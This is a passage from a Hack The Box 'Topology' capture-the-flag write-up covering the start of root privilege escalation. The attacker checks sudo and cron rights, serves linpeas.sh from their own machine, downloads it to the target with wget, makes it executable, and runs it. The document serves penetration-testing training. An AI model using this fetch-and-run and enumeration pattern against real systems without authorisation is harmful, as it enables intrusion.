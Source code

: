 ## Privilege Escalation - Root

```
-bash-5.0$ sudo -l
[sudo] password for vdaisley: 
Sorry, user vdaisley may not run sudo on topology.
-bash-5.0$ crontab -l
no crontab for vdaisley
```  
Testing if we can run any commands as 'sudo' or any cronjobs for our current user.  
&nbsp;  

**Linpeas**  
```
┌──(matt㉿HackTheBoxKali)-[~/Topology]
└─$ python3 -m http.server 8010                     
Serving HTTP on 0.0.0.0 port 8010 (http://0.0.0.0:8010/) ...
10.10.11.217 - - [27/Jun/2023 19:17:25] "GET /linpeas.sh HTTP/1.1" 200 -
```
Using a Python3 simple HTTP server I will host the file on my virtual machine.  
&nbsp;  

```
-bash-5.0$ wget http://10.10.14.22:8010/linpeas.sh
--2023-06-27 05:47:24--  http://10.10.14.22:8010/linpeas.sh
Connecting to 10.10.14.22:8010... connected.
HTTP request sent, awaiting response... 200 OK
Length: 835306 (816K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                                  100%[========================================================================================================================================>] 815.73K  1.04MB/s    in 0.8s    

2023-06-27 05:47:25 (1.04 MB/s) - ‘linpeas.sh’ saved [835306/835306]

-bash-5.0$ chmod +x linpeas.sh 
```
Retrieving 'Linpeas.sh' to the target using ```wget``` and giving the file executable permissions with ```chmod +x```.
&nbsp;  

```
-bash-5.0$ ./linpeas.sh 
....
SNIP
....
 /---------------------------------------------------------------------------------\
    |                             Do you like PEASS?                                  |
    |---------------------------------------------------------------------------------| 
    |         Get the latest version    :     https://github.com/sponsors/carlospolop |
    |         Follow on Twitter         :     @carlospolopm                           |
    |         Respect on HTB            :     SirBroccoli                             |
    |---------------------------------------------------------------------------------|
    |                                 Thank you!                                      |
    \---------------------------------------------------------------------------------/                                                                                                                                                      
          linpeas-ng by carlospolop 
....
SNIP
....
LEGEND:                                                                                                                                                                                                                                     
  RED/YELLOW: 95% a PE vector
```

[//]: # (Project: HTB Machine Writeups - Generated with Python3)  
[//]: # (Title: HTB Topology Writeup)  
[//]: # (Author: M4773L)  
[//]: # (Date: 27/06/2023 - 12:11 PM)  
[//]: # (Date_Modified: ) 
[//]: # (WEBSITE_URL: http://m4773l.github.io)
[//]: # (GITHUB_REPO_URL: https://github.com/M4773L)